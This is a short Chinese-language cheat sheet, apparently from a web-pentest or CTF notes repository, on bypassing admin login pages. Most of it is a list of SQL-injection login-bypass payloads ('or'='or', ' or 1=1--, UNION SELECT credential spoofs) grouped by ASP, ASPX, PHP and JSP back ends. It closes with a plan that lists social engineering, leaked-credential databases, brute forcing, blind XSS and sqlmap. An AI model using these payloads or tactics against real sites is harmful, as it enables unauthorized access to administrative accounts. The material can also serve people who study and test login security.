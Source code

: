 +   各种万能密码绕过
+   变形的万能密码绕过
+   社工的方式得到后台密码
+   爆破的方式得到后台密码
+   各种 cms 后台登陆绕过

```shell
# asp万能密码
'or'='or'

# aspx万能密码
1： "or "a"="a
2： ')or('a'='a
3：or 1=1--
4：'or 1=1--
5：a'or' 1=1--
6： "or 1=1--
7：'or'a'='a
8： "or"="a'='a
9：'or''='
10：'or'='or'
11: 1 or '1'='1'=1
12: 1 or '1'='1' or 1=1
13: 'OR 1=1%00
14: "or 1=1%00
15: 'xor
16: 新型万能登陆密码
username: ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin）
passwd: 1
Username=-1%cf' union select 1,1,1 as password,1,1,1 %23
Password=1
17..admin' or 'a'='a 密码随便

# PHP万能密码
'or'='or'
'or 1=1/*  字符型 GPC是否开都可以使用
User: something
Pass: ' OR '1'='1

# jsp 万能密码
1'or'1'='1
admin' OR 1=1/*
用户名：admin （系统存在此用户)
密码：1'or'1'='1
```



**思路：**

+   根据提示，判断是否是普通的登陆绕过，或是利用社工的方式
+   普通登陆绕过尝试各种万能密码绕过，或通过普通的 sql 注入漏洞得到账号密码，或 xss 盲打，sqlmap注入
+   如果是 cms 系统登陆，查看是否有相应版本的后台绕过漏洞
+   如果是社工方式，谷歌，百度，社工库
+   爆破获取
+   robots.txt 找找后台
